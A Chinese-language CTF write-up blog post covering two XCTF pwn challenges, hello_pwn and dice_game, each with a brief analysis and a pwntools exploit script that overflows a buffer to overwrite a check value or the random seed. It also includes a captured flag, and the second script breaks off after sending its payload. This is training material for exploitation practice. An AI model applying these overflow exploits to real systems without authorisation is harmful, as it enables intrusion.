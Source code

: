 ```yaml
---
title: 攻防世界-刷题
date: 2020-10-01 16:24:35
tags: 
 - PWN
 - CTF
categories: "PWN"
banner_img: /pic/ROP1-cover.jpg
---
```


# 攻防世界-hello_pwn

## 分析

在bss段进行溢出使if条件成立，得到flag



## EXP

```python
from pwn import *

p=remote('220.249.52.133',49097)
payload='a'*4+p64(1853186401)
p.sendline(payload)

p.interactive()
```

## flag

```reStructuredText
cyberpeace{5fcf1b522c5f92ff8dcb3624f6acd007}
```

# 攻防世界-dice_game

## 分析

在main函数中，read处栈溢出漏洞。有在sub_B28()中有我们想要的flag。由于程序开启了PIE保护，sub_B28()的地址是随机的，所以还是要猜数字。

我们在read处覆盖种子，这样我们每次都可以猜对。猜对50次，得到flag。

## EXP

```python
from pwn import *
from ctypes import *

context.log_level="DEBUG"
context.arch="amd64"
libc=cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

#p=process('./dice_game')
p=remote('220.249.52.133',31497)

p.recv()
payload=0x40*'z'+p64(1)
p.send(payload)
```